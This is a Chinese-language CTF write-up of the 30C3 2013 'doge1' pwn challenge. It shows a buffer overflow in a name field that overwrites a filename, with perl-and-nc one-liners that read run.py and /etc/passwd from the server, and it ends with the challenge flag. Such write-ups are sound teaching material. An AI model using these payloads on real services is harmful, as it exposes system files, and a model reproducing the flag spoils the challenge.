 title: 30C3CTF 2013 PWN 100 DOGE1
date: 2013-12-30 21:25
category: pwn
tags: 30c3CTF, bof
slug: 30c3ctf_2013_pwn_100_doge1

這次都沒有人陪打 QQ  
只解兩題 100 分...真慘  
不過這題 100 分，跟另一題的難度也差太多了吧 = =  
* * *

先用 nc 連線過去，要求我們輸入名稱，然後就看到一隻...豬頭?  
提示有兩個指令好用: `feed`, `show`  
`show` 是再印一次豬頭，`feed` 也差不多，奇怪的功能 = =  
![doge1.png]({filename}/images/30c3CTF_2013_doge_1.png)  

假如不輸入 `feed` 或 `show`，試著輸入長字串，毫無反應 Orz  
試試看輸入超長名稱....沒有印出那顆豬頭了 XD  

這題有提供原始程式，資料夾底下有三個檔案:

* ascii\_art\_doge\_color.txt
* doge.so
* run.py

*ascii_art_doge_color.txt* 就是那隻豬頭的 ascii 圖檔  
*run.py* 只有：  

```
#!/usr/bin/env python
import signal
import doge
signal.signal(signal.SIGCHLD, signal.SIG_IGN)
doge.listen("0.0.0.0", 1024)
```

*doge.so* 是編譯過的 linux library  
執行起來，並且輸入長字串看看結果，結果 server 端有噴出錯誤訊息  
>...  
>File "doge.pyx", line 54, in doge.Doge.\_\_str\_\_ (doge.c:1875)  
>IOError: [Errno 2] No such file or directory: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'  

看來是發生 bof 了 XD  
繼續試一下前面塞多少才會蓋到，結果是 "a"x32  
`perl -e 'print "a"x32 . "test"' | nc 0 1024`  
>...  
>File "doge.pyx", line 54, in doge.Doge.__str__ (doge.c:1875)  
>IOError: [Errno 2] No such file or directory: 'testi\_art\_doge\_color.txt'  

試試看能不能成功讀檔：
`perl -e 'print "a"x32 . "run.py\x00"' | nc 0 1024`
>Dogename: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaarun.py#!/usr/bin/env python  
>import signal  
>import doge  
>signal.signal(signal.SIGCHLD, signal.SIG\_IGN)  
>doge.listen("0.0.0.0", 1024)  
>commands: feed, show  

接下來就是猜猜看了...試了幾個檔案像是 *flag* , *flag.txt* , *key* , *key.txt* ...都失敗了 = =  
最後猜到 */etc/passwd*  
![flag.png]({filename}/images/30c3CTF_2013_doge_flag.png)

key: `30C3_51dd250e0adb864ff40cc40b818852f4`
